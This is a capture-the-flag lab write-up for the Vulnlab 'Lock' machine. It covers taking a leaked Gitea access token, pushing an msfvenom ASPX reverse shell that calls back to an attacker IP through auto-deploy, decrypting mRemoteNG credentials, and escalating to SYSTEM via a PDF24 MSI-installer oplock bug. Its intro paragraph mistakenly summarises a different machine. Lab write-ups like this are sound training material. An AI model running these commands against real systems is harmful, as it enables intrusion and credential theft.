 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Lock/logo.png
date: 2024-06-23 09:45:47 +07:00
modified: 2024-06-23 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: kozmer
  link: https://app.hackthebox.com/users/637320
tags: [Gitea, access token, repository, reverse shell, privilege escalation, mRemoteNG, mRemoteNG decryptor, PDF24, MSI installer, Windows, shell access, CI/CD integration]
title: Lock - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro is an **easy** difficulty machine where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize credential brute forcing to discover simple passwords, and employ Impacket and Certipy to change credentials and exploit an ESC1 vulnerability for privilege escalation. The final step involved obtaining a TGT for the administrator to capture the root flag.

# Enumeration

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
```

I started by looking at port 80 with some directory bruteforcing by nothing interesting. It seems like its a static website.

![](https://photos.squarezero.dev/file/abir-images/Lock/0.png)

Next, I visited port 3000 and It was running Gitea.

![](https://photos.squarezero.dev/file/abir-images/Lock/1.png)

I explored the Gitea instance and found **dev-scripts** repo by **ellen.freeman** and it looks like its a script for accessing Gitea with the access token.

![](https://photos.squarezero.dev/file/abir-images/Lock/2.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/3.png)

Afterthat I checked the previous commits and found exposed access token for ellen.freeman.

![](https://photos.squarezero.dev/file/abir-images/Lock/4.png)

# Shell as Ellen Freeman

I downloaded the script and after running it, it showed another hidden repository called **website**.

![](https://photos.squarezero.dev/file/abir-images/Lock/5.png)

After researching for a bit I found out that I can clone a repository using an access token.

`git clone http://ellen.freeman:<REDACTED>@lock.vl:3000/ellen.freeman/website.git`

![](https://photos.squarezero.dev/file/abir-images/Lock/6.png)

Inside the repository, there was a README.md where it stated that the git repo would be automatically deployed after. And after looking at the repo carefully it seems like its the website hosted on port 80.

```
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```

![](https://photos.squarezero.dev/file/abir-images/Lock/7.png)

I created a reverse shell and used git to push the shell into the main website.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.2.110 LPORT=4444 -f aspx -o shell.aspx`

```bash
#Add username and email
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl

#Stage the shell
git add shell.aspx 

#Commit with a message
git commit -m 'shell'

#Update the repo
git push
```

I made a request with curl and got a reverse shell.

`curl http://lock.vl/shell.aspx`

![](https://photos.squarezero.dev/file/abir-images/Lock/8.png)

# Ellen.freeman to Gale.dekarios

Inside the Ellen's Document folder there was a config file.

```
C:\USERS\ELLEN.FREEMAN        
|   .git-credentials
|   .gitconfig
|   
+---.ssh      
|       authorized_keys       
|   
+---3D Objects
+---Contacts  
+---Desktop   
+---Documents 
|       config.xml  
|   
+---Downloads 
+---Favorites 
|   |   Bing.url    
|   |         
|   \---Links 
+---Links     
|       Desktop.lnk 
|       Downloads.lnk         
|   
+---Music     
+---Pictures  
+---Saved Games     
+---Searches  
\---Videos
```

The config file is for ***mRemoteNG*** which containes encrypted password for the user.

![](https://photos.squarezero.dev/file/abir-images/Lock/9.png)


I used mremoteng-decryptor to decrypt the config file and found credential for remote access. And after logging in I got the user flag.

![](https://photos.squarezero.dev/file/abir-images/Lock/10.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/11.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/12.png)

# Gale.dekarios to root

In the desktop I saw PDF24 and I after looking online I found an local Privilege escalation for it.

[Local Privilege Escaltion via MSI installer in PDF24](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/)

![](https://photos.squarezero.dev/file/abir-images/Lock/13.png)

After looking in the hidden folders I found ***_install folder*** which containes the installer for PDF24.

![](https://photos.squarezero.dev/file/abir-images/Lock/14.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/15.png)

Next, I opened 2 terminal and in one of them I set the oplock on the PDF24 log file and after that in another terminal I executed the installer with MSI just like its said on the article.

`msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`

`.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`

![](https://photos.squarezero.dev/file/abir-images/Lock/16.png)

After waiting for a little bit a new CMD window opened and I follwed alone the article to spawn a cmd shell as administrator with in the legacy console mode.

* right click on the top bar of the cmd window.
* click on properties.
* under options click on the “legacy console mode” link.
* open the link with a browser other than internet explorer or edge (both don't open as SYSTEM when on Win11).
* in the opened browser window press the key combination CTRL+o.
* type “cmd.exe” in the top bar and press Enter.

![Right click on the top bar of the cmd window and click on properties](https://photos.squarezero.dev/file/abir-images/Lock/17.png)


![Under options click on the “legacy console mode” link.](https://photos.squarezero.dev/file/abir-images/Lock/18.png)


![Click Internet Explorer or Edge](https://photos.squarezero.dev/file/abir-images/Lock/19.png)


![Press the key combination CTRL+o](https://photos.squarezero.dev/file/abir-images/Lock/20.png)


![Type “cmd.exe” in the top bar and press Enter](https://photos.squarezero.dev/file/abir-images/Lock/21.png)


Now with the administrator shell I got the root flag.